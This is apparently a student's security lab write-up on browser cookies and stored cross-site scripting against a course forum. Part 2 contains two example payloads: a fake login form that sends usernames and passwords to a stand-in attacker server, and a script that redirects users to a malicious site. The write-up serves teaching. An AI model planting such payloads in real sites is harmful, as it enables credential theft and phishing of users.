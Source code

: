 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## Cookies and cross-site scripting (XSS) ##

### Part 1: Cookies ###

1. Initial cookies for cs338.jeffondich.com - their names and values

   ***Yes, there is a cookie for the domain cs338.jeffondich.com/fdf/***
   * name: theme, value: default

2. Do cookies change with the theme?

    ***The value of the present cookie changes with the theme.***
   * For example: when I changed the theme to blue, the value associated with the theme cookie changed from default to blue
     
3. Step 1 and 2 using Burpsuite

    ***Using burpsuite, the HTTP request to cs338:jeffondich.com contains a Cookie header with its value theme set to default. The resulting HTTP response has a Set-Cookie header containing the theme as default, and experies with a data. When I change the theme of Jeff's site to be red, a new GET request is sent with theme set to red: GET /fdf/?theme=red HTTP 1.1. The Set-Cookie header in the response then has the theme value as red with the same expiration date. These changes in the cookie value are similar to those observed through the inspectpor tool***

   * Note: The very first HTTP GET request that was sent to cs338:jeffondich.com did not contain a Cookie header and the resulting response had a Set-Cookie header with the theme value. The subsequent GET requests to the site then had a Cookie header.

5. Relaunching the browser and going back to FDF.

   ***The theme to the FDF site stayed the same when I closed my Chrome browser and relaunched it. That is, I change the site from the default theme to blue and close it. When I relaunched the site, the theme was still blue***

6. How the current theme transmitted between the browser and the FDF server.

    ***When I visited the FDF site, my browser stored a cookie generated by the FDF server, in this case theme with its value. Thus when I refresh or relaunch the page, my browser automatically sends this theme cookie along with the request. The server then reads the cookie containing current value of my theme and responds with the appropriate version of the site***
   
6. How changing the theme is transmitted between the browser and the FDF server?

    ***Changing the theme updates the value of my local cookie and thus when my browser makes a new request to the server, the new value of the cookie is automatically sent as part of the HTTP request headers***

7. Using browser's inspector to change FDF theme
   
    ***Using the Inspector, in the applications tab, I was able to edit the value of the theme cookie by typing in a different theme option. When I refreshed the page, the FDF theme updated to the new set value***

8. Using Burpsuite's Proxy tool to change the FDF theme.

    ***By modifying the cookie header value of the intercepted request to the FDF server, I was able to get a response with the updated theme on the FDF site without using the theme menu***

9. Where my OS stores cookies.

    ***Each browser manages the directory and format in which its cookies are stored on my computer's hard drive***
     * For example the cookies from Google Chrome on my macOs are stored in the subdirectory ~/Library/Application Support/Google/Chrome/Default/Cookies
  
     ******

### Part 2: Cross-Site Scripting (XSS) ###

1. Step-by-step description of the nature and timing of Moriarty's attack on users of the FDF.

* Prof. Moriarty submits a post with inline HTML <span> and JavaScript <script> tags.
* The FDF server stores this unsanitized post content in its database.
* When another user clicks on Moriarty’s post, the server delivers the post content exactly as it was entered, including the <span> and <script> tags.
* The browser then interprets and executes these tag automatically as HTML and JavaScript thus Moriarty's alert and css text edits are displayed on the FDF site.

2. XSS attack that is more virulent than Moriarty's "turn something red" and "pop up a message" attacks.

   ***Moriarty could inject a fake login form into a post. When Alice views the post, she might think it is legitimae and try to login. Her username and password will then go to Moriarty instead of the real FDF server.***

  ```
  <form action="https://moriartysserver.com/steal-password" method="POST">
    <p>Your session has expired. Please log in again:</p>
    <input type="text" name="username" placeholder="Username">
    <input type="text" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

3. A second attack that is more virulent than Moriarty's, but that's substantially different from my first idea.

    ***Moriarty could inject JavaScript that automatically redirects users to a malicious website that he controls. This could be used to phish for credentials or distribute malware.***

   ```
    <script>
        setTimeout(function() {
            window.location.href = 'https://moriartysmaliciouswebsite.com';
        }, 3000); 
    </script>
   ```

5. Techniques to prevent what Moriarty is doing.

* The server can ensure that all input data conforms to expected formats by removing potentially harmful characters before being stored in the database.
* Test web applications for vulnerabilities to help identify potential XSS attacks.

****END****


